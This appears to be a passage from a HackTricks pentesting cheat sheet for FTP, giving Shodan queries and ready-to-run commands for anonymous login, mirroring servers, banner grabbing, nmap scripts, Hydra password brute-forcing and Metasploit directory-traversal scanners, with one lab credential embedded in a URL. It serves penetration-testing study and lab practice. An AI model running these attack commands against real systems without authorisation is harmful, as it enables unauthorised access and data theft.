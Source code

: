 ### Shodan

* `ftp`
* `port:21`


## HackTricks Automatic Commands
```
Protocol_Name: FTP    #Protocol Abbreviation if there is one.
Port_Number:  21     #Comma separated if there is more than one.
Protocol_Description: File Transfer Protocol          #Protocol Abbreviation Spelled out

Entry_1:
Name: Notes
Description: Notes for FTP
Note: |
Anonymous Login
-bi     <<< so that your put is done via binary

wget --mirror 'ftp://ftp_user:UTDRSCH53c"$6hys@10.10.10.59'
^^to download all dirs and files

wget --no-passive-ftp --mirror 'ftp://anonymous:anonymous@10.10.10.98'
if PASV transfer is disabled

https://book.hacktricks.xyz/pentesting/pentesting-ftp

Entry_2:
Name: Banner Grab
Description: Grab FTP Banner via telnet
Command: telnet -n {IP} 21

Entry_3:
Name: Cert Grab
Description: Grab FTP Certificate if existing
Command: openssl s_client -connect {IP}:21 -starttls ftp

Entry_4:
Name: nmap ftp
Description: Anon login and bounce FTP checks are performed
Command: nmap --script ftp-* -p 21 {IP}

Entry_5:
Name: Browser Connection
Description: Connect with Browser
Note: ftp://anonymous:anonymous@{IP}

Entry_6:
Name: Hydra Brute Force
Description: Need Username
Command: hydra -t 1 -l {Username} -P {Big_Passwordlist} -vV {IP} ftp

Entry_7:
Name: consolesless mfs enumeration ftp
Description: FTP enumeration without the need to run msfconsole
Note: sourced from https://github.com/carlospolop/legion
Command: msfconsole -q -x 'use auxiliary/scanner/ftp/anonymous; set RHOSTS {IP}; set RPORT 21; run; exit' && msfconsole -q -x 'use auxiliary/scanner/ftp/ftp_version; set RHOSTS {IP}; set RPORT 21; run; exit' && msfconsole -q -x 'use auxiliary/scanner/ftp/bison_ftp_traversal; set RHOSTS {IP}; set RPORT 21; run; exit' && msfconsole -q -x 'use auxiliary/scanner/ftp/colorado_ftp_traversal; set RHOSTS {IP}; set RPORT 21; run; exit' &&  msfconsole -q -x 'use auxiliary/scanner/ftp/titanftp_xcrc_traversal; set RHOSTS {IP}; set RPORT 21; run; exit'
```